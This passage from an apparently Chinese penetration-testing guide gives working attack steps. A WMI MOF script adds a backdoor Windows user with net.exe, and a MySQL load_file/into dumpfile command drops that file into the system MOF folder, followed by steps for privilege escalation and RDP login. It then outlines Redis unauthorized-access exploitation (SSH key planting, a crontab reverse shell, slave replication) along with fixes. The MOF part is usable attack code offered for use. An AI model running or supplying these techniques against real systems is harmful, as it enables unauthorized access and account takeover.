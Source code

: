 ```
ScriptText =
"var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user waitalone waitalone.cn /add\")";
};
 
instance of __FilterToConsumerBinding
{
Consumer   = $Consumer;
Filter = $EventFilter;
};
```

其中的第 18 行的命令，上传前请自己更改。

2、执行 load_file 及 into dumpfile 把文件导出到正确的位置即可。

```
select load file('c:/wmpub/nullevt.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mov'


```

执行成功后，即可添加一个普通用户，然后你可以更改命令，再上传导出执行把用户提升到管理员权限，然后 3389 连接之就 ok 了。

特殊漏洞
====

Struts2-045
-----------

Redis 未授权访问
-----------

### 产生原因

Redis 默认情况下，会绑定在 0.0.0.0:6379，这样将会将 Redis 服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下可以利用 Redis 的相关方法，可以成功在 Redis 服务器上写入公钥，进而可以使用对应私钥直接登录目标服务器

### 利用条件和方法

条件:

1.  redis 服务以 root 账户运行
2.  redis 无密码或弱密码进行认证
3.  redis 监听在 0.0.0.0 公网上

方法:

*   通过 Redis 的 INFO 命令, 可以查看服务器相关的参数和敏感信息, 为攻击者的后续渗透做铺垫
*   上传 SSH 公钥获得 SSH 登录权限
*   通过 crontab 反弹 shell
*   slave 主从模式利用

### 修复

*   密码验证
*   降权运行
*   限制 ip / 修改端口
